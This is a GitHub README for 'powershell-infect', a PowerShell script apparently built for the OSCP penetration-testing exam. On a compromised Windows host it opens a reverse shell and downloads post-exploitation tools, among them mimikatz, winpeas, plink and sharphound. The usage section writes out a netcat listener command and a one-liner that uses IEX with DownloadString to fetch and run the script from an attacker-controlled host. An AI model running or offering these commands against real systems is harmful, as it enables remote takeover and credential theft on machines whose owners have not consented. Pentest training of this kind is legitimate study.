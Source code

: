 # powershell-infect
A powershell script for the OSCP Exam which sets up a windows reverse shell and automates the download of some useful windows post-exploit and privilege escalation tools.


## Usage

1. Change the paths in the script to reflect the locations of the binaries on your attack box
2. setup a netcat listener at port 4200 (or change the port in the script as well as the following command)
```
rlwrap nc -lvnp 4200
```
3. Host the script on a web server. Perhaps using
```
systemctl start apache2
```
and moving the infect.ps1 file to `/var/www/html` if you are on a modern kali system

4. Upon discovery of RCE in a windows system, execute the following command, replacing your attack box's ip with <RHOST>, and the path of the script on your locally hosted web server
```
powershell -c 'IEX (New-Object System.Net.WebClient).DownloadString('http://<RHOST></some/path/infect.ps1>; infect <RHOST>
```


## Features
This script performs the following actions
1. checks architecture to determine which binaries to download
2. downloads powercat to memory
3. downloads the following to disk in a directory called `.\not-malware` (full path determined by the location of the RCE):
    - winpeas
    - mimikatz
    - plink
    - sharphound
4. sends a powercat reverse shell to a local listener at port 4200
